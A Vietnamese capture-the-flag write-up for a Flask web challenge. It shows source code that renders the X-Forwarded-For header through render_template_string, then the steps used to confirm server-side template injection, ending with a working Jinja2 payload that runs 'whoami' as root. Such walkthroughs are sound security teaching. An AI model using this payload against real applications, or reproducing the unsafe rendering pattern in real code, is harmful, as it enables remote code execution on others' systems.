


# SSTI

**Tên challenge:** I Known Your IP

**Link challenge:** [Here](https://battle.cookiearena.org/challenges/web/i-known-your-ip)

**Tác giả challenge:** MEME

**Mục tiêu challenge:** Read the `/flag.txt`

**Tác giả Writeup:** Shino

---

# Bài giải

**B1:** Đầu tiên, ta được cung cấp Source Code và giao diện Website khá đơn giản, chỉ có 1 dòng text như sau:



=> Xem ra trang Web này sẽ show địa chỉ IP của ta.

**B2:** Ta thử đi sâu vào Source Code:
```
from flask import Flask, request, render_template_string

app = Flask(__name__)

@app.route("/")
def home():    
    try:
        client_ip = request.headers.getlist("X-Forwarded-For")[0].split(':')[0]
    except:
        client_ip = None
    if not client_ip:
        client_ip = request.remote_addr
    message = f"This page is being accessed from the remote address: {client_ip}"    
    return render_template_string(message)
    ## Fix Server Side Template Injection
    # message = "This page is being accessed from the remote address: {{client_ip}}"
    # return render_template_string(message, client_ip=client_ip)

if __name__ == "__main__":
    app.run(debug=True, host='0.0.0.0', port=1337)
```
Nếu để ý thì ta sẽ phát hiện đoạn code trên bị lỗi SSTI. Nguyên do là vì ứng dụng lấy IP từ phía người dùng thông qua HTTP Header `X-Forwarded-For`, sau đó lại đem nó đi vào hàm Render mà không dùng bất kỳ filter nào

**B3:** Ta bắt lại gói tin và thêm trường Header `X-Forwarded-For: {{7*7}}` như sau:



=> Ta có thể tạm thời kết luận là trang Web bị SSTI nhưng liệu ta có thể RCE thông qua loại lỗi này không thì vẫn chưa thể kết luận. Vì rất có thể Website chỉ cho phép những câu thử đơn giản và filter những payload liên quan đến RCE, và để củng cố thêm kết luận này ta sẽ thử đến payload có thể giúp ta thực thi command.

**B4:** Thử payload RCE `{{request.application.__globals__.__builtins__.__import__('os').popen('whoami').read()}}`


=> Vậy là kết quả `This page is being accessed from the remote address: root` đã kết luận rằng ta có thể RCE hệ thống thông qua lổ hổng SSTI và kế tiếp ta chỉ việc lấy flag thôi.

<u><b>Thông tin thêm:</b></u> Flag nằm ở thư mục `/`